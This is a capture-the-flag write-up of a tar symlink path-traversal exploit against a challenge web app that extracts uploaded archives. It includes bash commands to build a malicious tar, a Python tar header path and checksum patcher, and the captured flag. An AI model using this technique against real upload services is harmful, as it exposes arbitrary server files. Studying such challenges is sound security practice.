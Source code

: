 ```yaml
---
created: 2024-08-04T06:05
updated: 2024-08-04T21:20
points: 478
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`, which means we have to make a link under `/app/uploads/` that will point to `/app/`. (and not under `/app/uploads/0123/aaa`)

## Payload

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
```

After patching the path and checksum I got... Internal error.

Running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply write to `/app/aaa.tar` as well.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## Execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## Auto tar checksum/path patcher

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```
